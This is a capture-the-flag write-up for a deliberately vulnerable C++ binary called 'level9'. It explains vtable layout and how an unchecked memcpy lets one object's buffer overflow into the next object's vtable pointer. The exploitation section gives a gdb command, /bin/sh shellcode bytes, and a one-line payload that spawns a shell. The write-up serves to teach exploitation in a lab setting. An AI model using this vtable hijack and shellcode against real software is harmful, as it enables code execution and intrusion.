 level9
======

Decompilation
-------------

This time we seem to have some c++ code.
The program looks like this:
```cpp
#include <cstdlib>
#include <cstring>

class N
{
private:
	char	annotation[100];
	int		value;

public:
	N(int value): value(value)
	{ }

	virtual int	operator+(N &other)
	{ return value + other.value; }

	virtual int	operator-(N &other)
	{ return value - other.value; }

	void setAnnotation(char *str)
	{ memcpy(annotation, str, strlen(str)); }
};

int main(int ac, char **av)
{
	N	*a;
	N	*b;

	if (ac < 2) {
		exit(1);
	}

	a = new N(5);
	b = new N(6);

	a->setAnnotation(av[1]);

	return *b + *a;
}
```

We can see that there are two virtual methods that can be overloaded by classes inheriting N.
The way virtual methods work is that each instance of a class containing them needs to have a pointer to the vtable.
The vtable contains the pointers to the inherited or overloaded implementations.
It can contain NULL pointers, when inheriting abstract classes, in which case they cannot be instanciated.

The memory layout for instances of such classes looks like this:
| vtable | members | ... |
|:------:|:-------:|:---:|
|  0x00  |   0x04  | ... |

In our case it look like this:
| vtable | annotation | value |
|:------:|:----------:|:-----:|
|  0x00  |    0x04    |  0x68 |

The contents of the vtable look like this:
|   vtable   |
|:----------:|
| operator + |
| operator - |

Before calling return, the operator +, which corresponds to the first entry of the vtable, will be called.
In assembly the call looks like this:
```nasm
...
 804867c:	8b 44 24 10          	mov    eax,DWORD PTR [esp+0x10]	; b
 8048680:	8b 00                	mov    eax,DWORD PTR [eax]		; b->vtable
 8048682:	8b 10                	mov    edx,DWORD PTR [eax]		; b->vtable[0]

 8048684:	8b 44 24 14          	mov    eax,DWORD PTR [esp+0x14]	; a
 8048688:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax	; arg_1 = a

 804868c:	8b 44 24 10          	mov    eax,DWORD PTR [esp+0x10]	; b
 8048690:	89 04 24             	mov    DWORD PTR [esp],eax		; arg_0 = b

 8048693:	ff d2                	call   edx						; b->vtable[0](b, a)
...
```

Exploitation
------------

If we manage to override the pointer to b's vtable with a pointer to some other table, we can execute shellcode.

In memory, our two objects look like this:
| a.vtable | a.annotation | a.value | overhead | b.vtable | b.annotation | b.value | overhead |
|:--------:|:------------:|:-------:|:--------:|:--------:|:------------:|:-------:|:--------:|
|   0x00   |     0x04     |   0x68  |   0x6c   |   0x70   |     0x74     |   0xd8  |   0xdc   |


The memcpy copies to annotation, which is at offset 0x04. To reach b.vtable we need to input 0x70 - 0x04 = 0x6c bytes followed by the address of our fake vtable. 
We can put our fake vtable at the beginning of the annotation. Inside, we can simply point onto the memory following it, so that we can place our shellcode in the remaining space.

To find out the address of the annotation buffer, we can use gdb:
```sh
gdb -batch -ex 'b * 0x08048693' -ex 'r "AAAA"' -ex 'p *(char **)($esp + 0x14) + 0x4' ./level9
```
```c
Breakpoint 1 at 0x8048693

Breakpoint 1, 0x08048693 in main ()
$1 = 0x804a00c "AAAA"
```

We can replace the As with the address + 4 and put the address to the end of the input.
I will put the same shellcode I used in level2 and fill the remaining space with As.
```
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

./level9 $'\x10\xa0\x04\x08'"$SHELLCODE"$(printf %.0sA {1..83})$'\x0c\xa0\x04\x08'
```

```sh
whoami
```
```
bonus0
```
